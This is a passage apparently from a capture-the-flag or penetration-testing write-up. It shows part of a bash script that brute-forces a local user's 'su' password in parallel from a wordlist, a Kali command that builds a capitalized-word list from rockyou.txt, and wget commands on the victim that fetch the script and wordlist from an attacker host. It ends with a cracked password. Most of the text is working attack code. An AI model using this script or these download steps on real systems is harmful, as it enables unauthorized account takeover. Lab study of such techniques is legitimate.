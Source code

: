 ```
        if [[ $output != *"Authentication failure"* ]]; then #if password was correct
                printf "\rCreds Found! johnsmith:$password\n$output\nbye..." #print the password
                kill -9 -$(ps -o pgid= $TOP_PID  | grep -o '[0-9]*') #kill parent and other jobs
        fi
}

wordlist=$1 #get wordlist as parameter

count=$(wc -l $wordlist| grep -o '[0-9]*') #count how many words we have
current=1

while IFS= read -r line #for each line
do
        brute $line & #try the password
        progressbar ${current} ${count} #update progress bar. TODO:calculate ETA
        current=$(( current + 1 )) #increment
done < $wordlist #read the wordlist

wait #wait for active jobs
```

**Kali**

```
cat /usr/share/wordlists/rockyou.txt | grep -E ^[A-Z][a-z]+$ > capitalized_words.txt
```

**Victim**

```
wget http://$KALI:81/capitalized_words.txt -O /tmp/capitalized_words.txt
wget http://$KALI:81/su_brute_force.sh -O /tmp/su_brute_force.sh
chmod +x su_brute_force.sh
time bash su_brute_force.sh capitalized_words.txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su johnsmith
Password: PrettyS3cureAccountPassword123.
```
